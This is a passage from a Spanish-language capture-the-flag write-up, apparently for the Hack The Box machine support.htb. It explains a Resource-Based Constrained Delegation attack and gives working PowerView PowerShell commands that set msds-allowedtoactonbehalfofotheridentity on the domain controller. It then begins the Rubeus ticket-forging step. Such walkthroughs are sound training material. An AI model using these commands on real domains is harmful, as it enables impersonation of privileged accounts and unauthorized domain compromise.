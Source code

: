 Procederemos a realizar lo que nos queda para finalizar el **RCBD Attack**.

Al configurar el atributo `´msds-allowedtoactonbehalfofotheridentity'` en el objeto de ordenador `'SERVICEA'`, le otorgamos la capacidad de actuar en nombre de otros usuarios dentro del controlador de dominio (dc). Este proceso se basa en la delegación de recursos (RBCD), que permite que un equipo pueda solicitar acceso a ciertos recursos como si fuera otro usuario.

Específicamente, al aplicar este cambio, `SERVICEA` obtiene permisos para solicitar un Ticket Granting Ticket (TGT) en nombre de otras cuentas, incluyendo aquellas con permisos elevados. En un entorno de ataque, este TGT permite que `SERVICEA` acceda a servicios o realice acciones en el dominio como si fuera el usuario original, logrando así una impersonación dentro del controlador de dominio.

{% code overflow="wrap" %}
```powershell
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/873_vmware_Cl05xVxiOb.png" alt=""><figcaption></figcaption></figure>

### Rubeus

En nuestra Kali procederemos a descargarnos el binario de **Rubeus.exe** des de [GitHub](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries). Rubeus lo utilizaremos para solicitar y cargar un ticket de servicio (TGS), lo que permite al atacante utilizar '`SERVICEA'` para actuar como un usuario privilegiado en un recurso determinado.

Utilizaremos el siguiente comando para conseguir el Hash NTLM del equipo `SERVICEA` en el dominio de support.htb, le pasaremos la contraseña que hemos configurado anteriormente al crear el equipo en el dominio. Comprobaremos que obtenemos el hash, el que nos interesa es el de **rc4\_hmac**.
